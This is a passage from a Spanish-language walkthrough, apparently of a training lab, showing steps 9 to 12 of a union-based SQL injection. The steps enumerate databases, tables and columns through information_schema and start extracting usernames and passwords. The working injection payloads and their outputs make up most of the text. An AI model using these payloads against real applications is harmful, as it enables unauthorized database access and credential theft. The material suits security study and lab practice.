 Además de `ilfreight`, existe la base **backup**.

**Explicación**: Listar esquemas ayuda a descubrir bases adicionales donde puedan existir datos sensibles o tablas de respaldo.

---

## Paso 10: Listar tablas en `backup`

**Query**:

```sql
' UNION SELECT 1, table_name, 3, 4, 5
  FROM information_schema.tables
  WHERE table_schema='backup'-- -
```

**Resultado**:

```
admin_bk	3	4	5
```

**Explicación**: Identificar tablas en la base `backup` permite localizar datos de interés como credenciales anteriores.

---

## Paso 11: Columnas de `admin_bk`

**Query**:

```sql
' UNION SELECT 1, column_name, 3, 4, 5
  FROM information_schema.columns
  WHERE table_name='admin_bk'-- -
```

**Resultado**:

```
username	3	4	5
password	3	4	5
```

**Explicación**: Conocer las columnas permite extraer datos específicos (usuarios y contraseñas) de la tabla.

---

## Paso 12: Extracción de usuarios (tabla `users` desconocida)

**Query**:

```sql
' UNION SELECT 1, username, password, 4, 5
  FROM users-- -
```
